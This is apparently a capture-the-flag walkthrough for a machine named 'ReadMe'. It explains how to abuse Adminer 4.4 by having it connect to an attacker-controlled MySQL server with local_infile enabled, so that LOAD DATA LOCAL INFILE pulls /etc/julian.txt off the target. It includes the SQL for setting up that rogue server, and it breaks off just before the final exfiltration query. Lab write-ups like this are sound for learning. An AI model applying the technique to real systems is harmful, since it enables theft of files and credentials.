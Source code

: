- `/info.php`: shows `phpinfo()` output, which will show that the `mysqli.allow_local_infile` setting is enabled
- `/reminder.php`: contains an important hint for the root flag (that the code in tatham’s directory is using an encoder) and will also reveal the path of a directory containing an important file
- `/adminer.php`: a copy of adminer 4.4

Upon visiting `reminder.php`, the user will see a message directed towards `julian` followed by an image which is being served from a directory with no index that also contains a file named `creds.txt`. This file will reveal the path to where julian’s login credentials can be found on the local file system (`/etc/julian.txt`).

With this information, the user can point adminer towards their own MySQL server in order to exfiltrate the contents of `/etc/julian.txt`. To do this, a MySQL server must be installed (`apt install mysql-server`) and a user created that has all privileges on a database (this can be any database, for example’s sake, I’ll be using the `mysql` database).

When creating the user, the authentication type must be set to `mysql_native_password` due to the mysqli driver not supporting the latest default authentication method. If it is not, adminer will indicate to the user that it cannot authenticate and output a MySQL error.

To setup a user this way, the following command should be executed in the MySQL CLI:

```sql
CREATE USER 'jeff'@'%' IDENTIFIED WITH mysql_native_password BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'jeff'@'%';
```

Now that a new user is setup (in this case, `jeff`), the `local_infile` variable on the user’s MySQL server needs to be enabled. To do this, execute:

```sql
SET GLOBAL local_infile = true;
```

The setting can then be confirmed by running:

```sql
SHOW GLOBAL VARIABLES LIKE 'local_infile';
```
If the setting was successfully enabled, the following output will be displayed:

```
+---------------+-------+
| Variable_name | Value |
+---------------+-------+
| local_infile  | ON    |
+---------------+-------+
```

Now that the attacker’s MySQL server is setup, navigating to `/adminer.php` and filling in the connection details will force adminer to connect back to the attacker, where they will then be viewing their own database server in the web app.

From here, files local to ReadMe can be exfiltrated to the attacker using the `local infile` syntax. First, the user must create a new table to save the data into. For this example, I have created a table named `exploit` with a single text column.

After creating the table, going to the SQL command page and executing the following query will populate the exploit table with the contents of `/etc/julian.txt`:
